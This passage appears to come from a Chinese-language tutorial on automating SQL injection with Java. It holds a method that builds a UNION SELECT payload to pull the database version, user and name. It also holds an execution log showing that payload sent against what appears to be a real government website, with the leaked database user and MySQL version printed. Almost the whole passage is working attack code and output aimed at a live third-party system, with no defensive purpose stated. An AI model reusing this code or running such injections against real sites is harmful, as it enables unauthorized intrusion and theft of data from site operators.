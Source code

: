 ```

```

在知道了字段数后我们就可以通过构建关键字的方式去获取SQL注入查询的结果，我们的目的无外乎就是不停的递交SQL注入语句，把我们想要得到的数据库的信息展示在页面，然后我们通过自定义的关键字去取回信息到本地：

```
/**
     * 测试，获取数据库表信息
     */
    public static void getDatabaseInfo(){
        String skey = sqlKey.get(0).toString();
        System.out.println("skey:"+skey);
        StringBuilder union = new StringBuilder();
        for (int i = 0; i < sbCount; i++) {
            union.append("concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),");
        }
        Map<String,Object> sb = HttpHelper.sendGet(uri, parameter.replace(skey, skey+("-1+UnIon+SeleCt+"+(union.delete(union.length()-1, union.length()))+"%23")));
        String rs = ((String)sb.get("content"));
        String user = rs.substring(rs.lastIndexOf("[user]")+6,rs.lastIndexOf("[/user]"));
        String version = rs.substring(rs.lastIndexOf("[version]")+9,rs.lastIndexOf("[/version]"));
        String database = rs.substring(rs.lastIndexOf("[database]")+10,rs.lastIndexOf("[/database]"));
        System.err.println("user:"+user);
        System.err.println("version:"+version);
        System.err.println("database:"+database);
    }

```

代码执行的日志：

```
url:http://www.tchjbh.gov.cn/news_display.php
param:id=148-1+UnIon+SeleCt+concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]'),concat('[mjj]','[version]',version(),'[/version]','[user]',user(),'[/user]','[database]',database(),'[/database]','[/mjj]')%23
user:tchjbh@127.0.0.1
version:5.1.56-community
```